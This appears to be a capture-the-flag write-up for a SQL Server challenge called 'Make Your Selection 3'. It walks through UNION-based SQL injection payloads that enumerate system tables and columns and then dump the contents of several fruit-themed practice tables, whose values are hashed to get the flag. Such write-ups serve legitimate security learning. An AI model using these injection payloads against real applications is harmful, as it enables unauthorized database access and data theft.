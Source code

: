 # Make Your Selection 3

### Challenge

Start with solution from Make Your Selection 1:

    xyz' UNION ALL SELECT name FROM sys.tables; --

now find column names for each table

    xyz' UNION ALL SELECT name FROM sys.columns where object_id = (select object_id from sys.tables where name = 'Fruit'); --
    xyz' UNION ALL SELECT name FROM sys.columns where object_id = (select object_id from sys.tables where name = 'FruitColor'); --    
    ...etc.

Now that you know all the column names, start selecting each column from each table:

    xyz' UNION ALL SELECT Id FROM Fruit order by 1; --
    xyz' UNION ALL SELECT FruitName FROM Fruit order by 1; --
    xyz' UNION ALL SELECT FruitGrowsOnId FROM Fruit order by 1; --
    xyz' UNION ALL SELECT FruitColorId FROM Fruit order by 1; --
    ...etc.

When you have all values from all columns of all tables just put them together in order of table name then column name then value. Notice this table shows the tables in alphabetical order, then their columns in alphabetical order, then the values in alphabetical order.


| Fruit.FruitColorID | Fruit.FruitGrowsOnID | Fruit.FruitName | Fruit.Id | Fruit.SeasonID| FruitColor.Color | FruitColor.Id | FruitGrowsOn.Id | FruitGrowsOn.PlantType | FruitSeason.Id | FruitSeason.Season|
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
|123456|111234|AppleBananaBlueberryGrapeOrangeStrawberry|133334|123456|BlueGreenOrangePurpleRedYellow|123456|1234|BushrunnerTreeVine|1234|FallSpringSummerWinter|

All together it evaluates to 123456111234AppleBananaBlueberryGrapeOrangeStrawberry133334123456BlueGreenOrangePurpleRedYellow1234561234BushrunnerTreeVine1234FallSpringSummerWinter

Finally, compute the SHA256 hash of that value. Use an online tool or your favorite programming language.

```
select 'Fruit.Id', CAST(Id as nvarchar(10)) from dbo.Fruit
union all select 'Fruit.FruitName',  FruitName from dbo.Fruit
union all select 'Fruit.FruitGrowsOnID', CAST(FruitGrowsOnID as nvarchar(200)) from dbo.Fruit
union all select 'Fruit.FruitcolorID', CAST(FruitColorID as nvarchar(200)) from dbo.Fruit
union all select 'Fruit.FruitSeasonID', CAST(FruitSeasonID as nvarchar(200)) from dbo.Fruit
union all select 'FruitColor.Id', CAST(Id as nvarchar(10)) from dbo.FruitColor
union all select 'FruitColor.FruitColor', Color from dbo.FruitColor
union all select 'FruitGrowsOn.Id', CAST(Id as nvarchar(10)) from dbo.FruitGrowsOn
union all select 'FruitGrowsOn.PlantType', PlantType from dbo.FruitGrowsOn
union all select 'FruitSeason.Id', CAST(Id as nvarchar(10)) from dbo.FruitSeason
union all select 'FruitSeason.Season', Season from dbo.FruitSeason
ORDER BY 1,2;
```
